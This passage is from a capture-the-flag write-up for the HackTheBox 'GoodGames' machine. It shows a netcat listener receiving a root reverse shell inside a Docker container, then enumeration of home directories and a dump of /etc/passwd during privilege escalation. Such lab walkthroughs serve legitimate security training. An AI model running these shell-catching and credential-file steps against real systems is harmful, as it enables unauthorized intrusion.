 ```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# nc -nlvp 1234                   
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.130] 48710
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
root

root@3a453ab39d3d:/backend# ls -la
total 28
drwxr-xr-x 1 root root 4096 Nov  5  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
-rw-r--r-- 1 root root  122 Nov  3  2021 Dockerfile
drwxr-xr-x 1 root root 4096 Nov  3  2021 project
-rw-r--r-- 1 root root  208 Nov  3  2021 requirements.txt
```

>   This was a Docker container.

# Privilege Escalation

Lets look around the container to check if we can find anything interesting.

```bash
root@3a453ab39d3d:/backend# cd /home
root@3a453ab39d3d:/home# ls -la
total 12
drwxr-xr-x 1 root root 4096 Nov  5  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
drwxr-xr-x 2 1000 1000 4096 Dec  2  2021 augustus

root@3a453ab39d3d:/home# cd augustus
root@3a453ab39d3d:/home/augustus# ls -la
total 24
drwxr-xr-x 2 1000 1000 4096 Dec  2  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r----- 1 root 1000   33 Aug 15 04:33 user.txt
```

At this point, I was going round in circles. A writeup from [0xdf](https://0xdf.gitlab.io/2022/02/23/htb-goodgames.html) showed that we needed to check if the user `augustus` was in the `/etc/passwd` file.

```bash
root@3a453ab39d3d:/home/augustus# cat /etc/passwd | grep augustus

root@3a453ab39d3d:/home/augustus# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
